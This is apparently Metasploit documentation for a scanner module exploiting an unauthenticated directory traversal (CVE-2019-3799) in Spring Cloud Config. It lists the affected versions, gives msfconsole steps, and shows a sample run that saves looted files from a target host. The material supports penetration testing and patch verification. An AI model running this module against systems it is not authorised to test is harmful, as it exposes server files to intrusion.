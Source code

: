 ## Description

This module exploits an unauthenticated directory traversal vulnerability, which exists in Spring Cloud Config versions 2.1.x prior to 2.1.2,versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6.
Spring Cloud Config listens by default on port 8888.

### Vulnerable Application

* https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.1.RELEASE.zip

## Verification

1. `./msfconsole`
2. `use auxiliary/scanner/http/springcloud_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Linux zero 4.15.0-48-generic #51-Ubuntu SMP x86_64 GNU/Linux

```
msf > use auxiliary/scanner/http/springcloud_traversal 
msf auxiliary(scanner/http/springcloud_traversal) > set RHOSTS 192.168.1.132
RHOSTS => 192.168.1.132
msf auxiliary(scanner/http/springcloud_traversal) > run

[+] File saved in: /home/input0/.msf4/loot/20190418203756_default_192.168.1.132_springcloud.trav_893434.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_traversal) >
```

## References

* https://pivotal.io/security/cve-2019-3799
